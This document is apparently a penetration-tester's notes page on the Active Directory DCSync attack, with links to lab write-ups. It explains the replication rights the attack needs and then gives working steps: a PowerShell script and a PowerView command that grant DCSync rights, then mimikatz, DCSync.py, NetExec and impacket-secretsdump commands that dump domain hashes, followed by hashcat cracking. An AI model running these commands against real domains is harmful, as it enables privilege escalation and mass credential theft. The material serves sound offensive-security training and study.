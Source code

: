 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## Concept

AD environments often use multiple DCs for redundancy. These DCs synchronize using **Directory Replication Service Remote Protocol (DRSR)**. **DCSync** is a late-phase attack that allows an attacker to **impersonate a DC** and then dump `ntds.dit`.

> _DCs do **not verify the source** of a replication request. They only check that the **Security Identifier (SID)** used has appropriate privileges._

To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights**:

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

These rights are **granted by default** to `Domain Admins`, `Enterprise Admins`, and `Administrators`.

> _If we have **`WriteDacl`** rights over an account, we can assign **DCSync rights** to it. For instance, the `Windows Exchange Permissions`_ _group has **DCSync rights**. For an example of a DCSync attack using the `WriteDacl` permission see_ [_Forest_](../../../boxes/easy/forest.md#privilege-escalation)_._

## Attack

{% tabs %}
{% tab title="Windows" %}
We can enumerate permissions using an elevated CMD or PS session.

```powershell
# Command Prompt
dsacls "DC=domain,DC=local"
# PowerShell
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```

We can assign DCSync rights manually or automatically using [PowerView](../ad-tools/powerview.md) or `DCSync.py`.

> _The manual way is explained_ [_here_](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)_._

{% code overflow="wrap" %}
```powershell
# Manually
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"

# PowerView
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}

Once the rights have been assigned, we can perform the attack with [`mimikatz`](../ad-tools/mimikatz.md).

```powershell
# Mimikatz (PS script)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# Mimikatz (binary)
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator
```

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}


We can assign DCSync rights using `DCSync.py`.

{% code overflow="wrap" %}
```bash
# DCSync.py
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}

We can also perform the attack with [`NetExec`](dcsync.md#netexec) or [Impacket](../ad-tools/impacket.md)'s `secretsdump` script.

```bash
# NetExec
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator

# Impacket's secretsdump
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```

> _For an example of a DCSync attack using `DCSync.py` and `secretsdump.py` see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_. For an example of a DCSync attack using NetExec see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack)_._

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

* An in-depth article about DCSync from Altered Security ([article](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection))
* What `impacket-secretsdump` does behind the scenes ([video](https://www.youtube.com/watch?v=QfyZQDyeXjQ))
